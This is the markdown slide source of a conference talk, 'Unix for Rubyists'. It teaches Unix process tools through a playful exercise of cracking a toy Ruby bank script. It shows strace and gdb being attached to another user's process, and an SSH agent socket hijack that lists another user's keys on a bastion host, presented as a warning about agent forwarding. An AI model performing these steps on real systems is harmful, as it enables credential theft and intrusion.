


# Unix for Rubyists

author
: Nick Marden

institution
: Rapid River Software

theme
: rrsoft

# Who Am I?

* github.com/nickmarden
* Some dude from US
* Web developer since 1993
* Rapid River Software founder

{:relative_width="35" :align="center"}

# Agenda

* Steal Jimmy's Money

{:relative_width="70" :align="center"}

# Follow Along on GitHub

* nickmarden/steal-jimmys-money
* nickmarden/unix-for-rubyists

# Jimmy's Bank Account

{:relative_width="30" align="right" relative_margin_right="-3"}

* We don't have access!
* In-memory combination
* Brute-force protection
* *But we have Unix*

# Unix Origins

Created 1969 (Bell Labs)

{:relative_width="40" :align="center"}

# Lol.

{:relative_width="100" :align="center"}

# Old Unix

* AT&T SysV

{:relative_width="70" :align="center"}

# New Unix

* Linux (1991)
* FreeBSD (1993) & Darwin (2000)

{:relative_width="70" :align="center"}

# Unix is Yoda

> Very few projects survive 20 years - Matz

{:relative_width="70" :align="center"}

# Strategy

* Learn about Unix ideas & tools
* Crack bank.rb script locally
* Get access to the-vault
* Execute solution on the-vault

# Depositing Money

    amount = STDIN.readline.to_i

    COMBINATION_NUMBERS = 5
    COMBINATION_RANGE = 50
    
    combination = (0..COMBINATION_RANGE).to_a.sample(COMBINATION_NUMBERS)
    Signal.trap('USR1') { puts combination.inspect }

# Set Combination Pins

    processes = (0..COMBINATION_RANGE)
                  .to_a
                  .each_with_object({}) do |slot_number, process_hash|

      f = Tempfile.new('bank'); p = f.path; f.close!

      pid = fork do
        Process.setproctitle("Bank pin #{slot_number}")
        puts "Write any data to #{p} to activate combination number #{slot_number}"
        Signal.trap('TERM') { File.unlink(p); exit }
    
        File.mkfifo(p)
        fifo = open(p, 'r+')
        loop { break if fifo.readline }
        File.unlink(p)
      end
      process_hash[pid] = slot_number
    end

# "Pressing" a Pin

    [nick@MacBook-Pro jimmys-bank-account] (master)$ ruby bank.rb

    Hi, Jimmy. How much money do you want to put in the bank? 456

    Wow, RubyConf must be *huge* this year!

    OK the combination is [6, 44, 34, 9, 0].
    If you ever forget it, just send a USR1 to 18990!

    Write data to /tmp/bank20171011-1234-abcdef to press pin number 0
    ...
    Write data to /tmp/bank20171011-1234-xyzpdq to press pin number 6
    ...

    $ echo foo > /tmp/bank20171011-1234-xyzpdq
    Correctly pressed pin 6
    
    $ echo foo > /tmp/bank20171011-1234-abcdef
    bank.rb:51:in `block in <main>': Incorrect combination number 0 entered!
      from bank.rb:35:in `loop'
      from bank.rb:35:in `<main>'</main>

# Test Combination

    loop do
      begin
        pressed = processes.delete(Process.waitpid(-1,0))
    
        case pressed
        when combination[0]
          puts "Correctly pressed pin #{pressed}"
          combination.shift
          if combination.empty?
            processes.keys.each { |pid| Process.kill 'TERM', pid }
            break
          end
        else
          processes.keys.each { |pid| Process.kill 'TERM', pid }
          raise("Incorrect combination number #{pressed} entered!")
        end
      end
    end

# Unix Architecture

* Kernel space vs. User space
* System calls

{:relative_width="70" :align="center"}

# Documentation!

* "Manual pages" - `man`
  * Section 1: Programs
  * Section 2: System Calls
  * Section 3: Library functions
  * Other sections 4-9; `man man` ;-)
* Example: `ps(1)`, `stat(2)`
* `man ps` or `man 2 stat`

# Unix Philoshophy

> Write programs that do one thing and do it well. Write programs to work together. Write programs to handle text streams, because that is a universal interface. - Doug McIlroy

# Unix Standard Filehandles

    my_program 2>/dev/null | \
      grep -vi 'useless junk' | \
      tee -a output.txt

* `my_program` stdout(0) -> `grep` stdin(1)
* `my_program` stderr(2) -> discarded
* `grep` stdout(1) -> `tee` stdin(0)

# Files In Ruby Class Model

    ruby <<EOF
    def finfo(fh) "#{fh.fileno} is a #{fh.class}"; end
    puts [STDIN, STDOUT, STDERR].map { |f| finfo(f) }.join(', ')
    passwd = open('/etc/passwd'); puts finfo passwd
    
    # Alias-method-chain Kernel#open for URL support
    require 'open-uri'
    puts finfo open('http://www.reddit.com/r/FML/')
    
    passwd.close # Free up a filehandle slot
    puts finfo open('/dev/null')
    EOF
    
    0 is a IO, 1 is a IO, 2 is a IO
    7 is a File
    9 is a Tempfile
    7 is a File
{: lang="ruby"}

# Ruby Standard Filehandles

STD\*/$std\* are (mutable) globals:

    [STDIN, STDOUT, STDERR].each { |f| puts f.fileno }
    $stdout = File.open("output.log", "w+")
    $stderr = File.open("errors.log", "w+")
    
    puts "Hello world" # Goes to output.log
    raise("ouch!")     # Stacktrace to errors.log
{: lang="ruby"}

# Processes

* Processes do everything in Unix
* They have numeric IDs
  * `Process.pid`, `$$` = `getpid(2)`
* Every process has a parent
  * Except `init(1)/systemd(1)` (`$$` = 1!)

# One: Get Combination

# ps(1), kill(1)

  * `ps(1)` lists processes
  * `kill(1)` sends _any signal_ to process
    * Not just for killing things

# ps & kill output

We can ask for the combination

    $ ps auxwww | grep bank.rb | grep -v grep
    jimmy  6967 ...  ruby bank.rb

    $ kill -USR1 6967
    $

...but we can't see the answer

# strace(1)

* Lists system calls as they occur
* Can filter on specific system calls
* Also `ltrace(1)` for userland calls

# strace output

    $ strace -p 6967 -e trace=write
    strace: Process 6967 attached
    --- SIGUSR1 {si_signo=SIGUSR1, si_code=SI_USER, ...
    ...
    write(1, "[0, 42, 12, 6, 14]", 18)      = 18
    write(1, "\n", 1)                       = 1

# Two: Enter Combination

# ps(1)

    $ ps auw | grep -i bank
    jimmy  6967  ...  ruby bank.rb
    jimmy  6970  ...  Bank pin 0
    jimmy  6973  ...  Bank pin 1
    jimmy  6976  ...  Bank pin 2
    jimmy  6979  ...  Bank pin 3

# lsof(1) - ls open files

    $ lsof -p 6970
    COMMAND  PID  USER  TYPE DEVICE NAME
    ruby    6970 jimmy  cwd    DIR  /home/jimmy/jimmys-bank-account
    ruby    6970 jimmy  rtd    DIR  /
    ...
    ruby    6970 jimmy   7u   FIFO  /tmp/bank20171010-6967-bppvfx
    ...

# Push combination pin

    $ echo foo > /tmp/bank20171010-6967-bppvfx

# Capturing std*

This is a great party trick.

    $ gdb -p 7556
    Attaching to process 7556
    29  ../sysdeps/unix/sysv/linux/waitpid.c
    (gdb) shell tty
    /dev/pts/4
    (gdb) call (void) close(1)
    (gdb) call (int) open("/dev/pts/4", 2, 0)
    $1 = 1
    (gdb) q

    $ echo foo > /tmp/bank20171010-6967-bppvfx
    Correctly pressed pin 0

# Three: Get onto the-vault

# Process Forking

{:relative_width="30" align="right" relative_margin_right="-5"}

* Basis of whole Unix process tree
* Parent & child *almost* exact copies
  * `fork(2)` returns pid or 0
* Parent "cleans up"
  * :100:
  * `wait(2)`, `waitpid(2)`

# Ruby mumble mumble

Maximize compilation before `fork(2)`!

* Rails:
  * `eager_load_paths` == `autoload_paths`
  * `config.cache_classes = true` ;-)
* Example: Unicorn webserver pool
  * Avoid all children re-compiling code

## MENTION: Don't confuse library eager loading with AR eager loading

# fork-exec

`exec(2)`: after `fork(2)`, replace binary

* Filehandles, env from parent
* *But* runs different executable
* Many variations:
  * `execl(2)`, `execle(2)`, `execlp(2)`, `execlpe(2)`, `execv(2)`, `execve(2)`, `execvp(2)`, `execvpe(2)`

# fork-exec as Enhancement

    #!/bin/bash
    
    # Set some important variables 
    export PGPASS=supersecret
    exec bin/rails runner my_cron_job.rb

# Inter-proc Communication

* `IO.pipe`: unidirectional filehandle
* `UNIXSocket.pair`: bidirectional
  * Parent-child communication
  * Communication from other procs

# Permissions

    -rw-r--r--  1 nick  staff  4490 Oct  7 16:16 unix_for_rubyists.md 

* Everything (proc & files) has owner
* Procs: Only owner/root can control
* Files: three-level access model
  * Owner/Group/World R/W/X
  * ...or `setfacl(1)`, `acl(5)`

# ssh-agent

{:relative_width="80" :align="center"}

# Meanwhile on bastion...

{:relative_width="100" :align="center"}

# SSH_AUTH_SOCK exploit

Demo, *but root can always do this*

    nick@bastion:~$ ls -l /tmp/ | grep jimmy
    drwxr-xr-x 2 jimmy jimmy 4096 Oct  9 12:44 ssh-2mUFWXY0bg

    nick@bastion:~$ ls -l /tmp/ssh-2mUFWXY0bg
    srw-rw-rw- 1 jimmy jimmy 0 Oct  9 12:44 agent.4667

    nick@bastion:~$ export SSH_AUTH_SOCK=/tmp/ssh-2mUFWXY0bg/agent.4667

    nick@bastion:~$ ssh-add -L
    ssh-rsa AAAAB3NzaC1...G3KmLn3h9 jimmys_ssh_key

# Hijacked keys

{:relative_width="100" :align="center"}

# Recap

* Unix is awesome
  * ...and Yoda
* Know Unix design & tools
  * Powerful for debugging!
* Agent forwarding risky ;-)

# Winners!

{:relative_width="30" :align="center"}

* {::wait/}Lincoln Lee (@linc01n)
* {::wait/}Faizal Zakaria (@faizalzakaria)
* {::wait/}Hassanin Ahmed (@sas1ni69)

# Questions?
